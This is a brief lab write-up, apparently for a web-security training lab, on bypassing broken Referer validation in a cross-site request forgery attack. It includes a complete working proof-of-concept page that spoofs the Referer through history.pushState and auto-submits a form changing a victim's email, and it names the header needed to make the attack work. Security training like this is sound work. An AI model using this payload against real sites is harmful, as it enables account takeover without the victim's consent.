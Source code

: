 # Lab: CSRF with broken Referer validation

Intercept an email change request and send it to the repeater. Modify the referer and notice that as long as the website domain is part of the string, even though the full domain string is actually different.

Use the following exploit to trigger the vulnerability:
```<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?acb61fad1ec8adb5c09908e900440055.web-security-academy.net')</script>
    <form action="https://acb61fad1ec8adb5c09908e900440055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>```

This uses the `history.pushState()` function to include the target site domain as a query string, satisfying the referer checks.

The exploit also needs the following set in the "Head" section in order for the browser to include the query string: `Referrer-Policy: unsafe-url`